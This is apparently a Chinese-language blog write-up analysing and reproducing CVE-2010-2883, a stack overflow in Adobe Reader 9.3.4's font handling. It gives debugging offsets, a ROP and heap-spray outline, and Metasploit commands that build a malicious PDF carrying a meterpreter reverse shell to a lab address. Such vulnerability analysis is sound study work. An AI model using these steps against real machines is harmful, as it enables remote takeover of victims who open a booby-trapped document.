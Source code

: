 ```yaml
---
layout:         post
title:          CVE-2010-2883分析 & 复现
author:         wooy0ung
tags:           cve
category: 	 	exploit
---
```


- 目录
{:toc #markdown-toc}

>[分析环境]  
>系统: Windows XP SP3  
>漏洞软件: Adobe Reader 9.3.4  
>注意: 在Win7 x64下从Reader打开msf.pdf会引起异常而退出。  
>说明: 这篇文算是《漏洞战争》上的补充吧, 有些细节作者没有讲明。
<!-- more -->


### 0x00 前期准备

安装 Adobe Reader 9 & PdfStreamDumper, 将CoolType.dll拖到IDA分析, 定位到漏洞点

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x00.png)

第一处脆弱点, strcat没对字符串长度进行检查, 导致栈溢出

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x01.png)

第二处脆弱点在0x0808B308, call [eax]导致可以构造任意call, 控制eip的指向


### 0x01 Dump TTF

生成恶意pdf

```
msf > use exploit/windows/fileformat/adobe_cooltype_sing
msf > set payload windows/meterpreter/reverse_tcp
msf > set lhost 192.168.2.63
msf > set lport 9000
msf > run
```

导入pdf, Search_For->TTF Fonts, 选中TTF数据右键->Save Decompressed Stream

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x02.png)

TableEntry结构

```
typedef struct_SING
{
        char    tag[4];
        ULONG   checkSum;
        ULONG   offset;
        ULONG   length;
} TableEntry;
```

Dump数据0x0EC处的SING字段标记SING表的表头

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x03.png)

偏移表头0x00C处表示SING表数据相对文件的偏移(0x000->0x11C)

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x04.png)

相对于SING表数据开始再偏移0x010(uniqueName)开始复制到栈上


### 0x02 调试

定位到strcat, 查看payload入栈的首地址

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x05.png)

此处数据与dump出来的一致, 确定payload在栈首地址0x0012E4D8

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x06.png)

注意这几处调用0x0803DEAF->0x08016C56->0x0801BB41->0x0808B308, 定位到call [eax]

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x07.png)

这时调用的是栈上0x0012E6D0存的一个地址, 0x0012E6D0-0x0012E4D8=0x1F8

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x08.png)

将偏移payload的0x1F8~0x1FC共4bytes修改成目的地址(此处为0x4A80CB38), 即可控制EIP跳转, 然后构造ROP

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x09.png)

偏移payload的0x008~0x00C修改成ROP指令地址, 0x00C~0x00F修改成0x0C0C0C0C

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x0a.png)

通过HeapSpray将shellcode弹到栈上

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x0b.png)

构造ROP, 依次调用CreateFileA->CreateFileMappingA->MapViewOfFile->memcpy将栈上的shellcode复制到有r-w-x权限的内存段


### 0x03 exploit

打开msf监听, F9直接运行

```
msf > use /exploit/mutil/handler
msf > set payload windows/meterpreter/reverse_tcp
msf > set lhost 192.168.2.63
msf > set lport 9000
msf > exploit -j
```

后门已经反弹回来

![](/assets/img/exploit/2017-09-23-cve-2010-2883/0x0c.png)

由于icucnv36.dll没有开启ASLR, 以上构造的ROP指令能绕过DEP、ASLR